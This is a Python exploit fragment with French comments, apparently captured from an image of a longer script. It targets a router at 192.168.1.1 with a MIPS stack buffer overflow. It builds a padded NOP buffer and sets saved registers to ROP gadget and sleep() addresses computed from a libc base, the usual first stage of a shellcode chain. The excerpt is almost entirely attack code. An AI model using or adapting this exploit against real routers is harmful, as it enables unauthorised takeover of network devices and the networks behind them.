 ```python
# =============================================================================

# Adresse IP du routeur cible
host = '192.168.1.1'

# Création d'une socket TCP pour la connexion HTTP
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# =============================================================================
# DÉFINITION DES CONSTANTES MIPS
# =============================================================================

# Instruction NOP pour MIPS : "nor t6,t6,zero"
# Cette instruction ne fait rien, utilisée pour le padding
nop = "\x27\x70\xc0\x01"

# =============================================================================
# CONSTRUCTION DU BUFFER INITIAL POUR LE OVERFLOW
# =============================================================================

# Début du buffer avec un caractère 'A'
buf = "A"

# Ajout de 1279 instructions NOP pour atteindre exactement les registres
# Cette taille a été calculée par fuzzing/debugging avec GDB
buf += nop * 1279

# =============================================================================
# CONFIGURATION DES GADGETS ROP - PARTIE 1
# Contrôle des registres MIPS lors du retour de fonction
# =============================================================================

print("[*] Configuration des registres pour les gadgets ROP...")

# Registre $s0 : mis à NOP (pas utilisé directement)
s0 = nop

# Registre $s1 : Adresse de la fonction sleep() dans LibC
# Base LibC (0x2b259000) + Offset sleep (0x4FFD0) = 0x2b2a8fd0
s1 = "\x2b\x2a\x8f\xd0"
print("[+] $s1 = Adresse sleep(): 0x2b2a8fd0")

# Registre $s2 : mis à NOP
s2 = nop

# Registre $s3 : Adresse du 2ème gadget ROP
# Base LibC (0x2b259000) + Offset gadget (0x1A95C) = 0x2b27395c
s3 = "\x2b\x27\x39\x5c"
print("[+] $s3 = Adresse 2ème ROP gadget: 0x2b27395c")

# Registres $s4 à $s7 : mis à NOP (non utilisés)
s4 = nop
s5 = nop
s6 = nop
s7 = nop

# Registre $ra (Return Address) : Adresse du 1er gadget ROP
# C'est ici que commence notre chaîne ROP
# Base LibC (0x2b259000) + Offset gadget (0x511C8) = 0x2B2AA1C8
ra = "\x2b\x2a\xa1\xc8"
print("[+] $ra = Adresse 1er ROP gadget: 0x2B2AA1C8")

# =============================================================================
```